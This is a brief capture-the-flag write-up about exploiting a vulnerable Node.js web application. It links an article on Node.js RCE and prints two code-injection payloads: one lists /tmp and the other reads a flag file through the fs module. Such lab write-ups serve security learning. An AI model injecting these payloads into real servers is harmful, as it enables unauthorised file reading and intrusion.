




Challenge was a vulnerable Nodejs Web application.



https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44

```
var fs=require("fs");fs.readdirSync("/tmp").toString('utf8')
var fs=require("fs");fs.readFileSync("/tmp/flag_MDA0O.txt").toString('utf8')
```





I forget to screenshot a flag file content.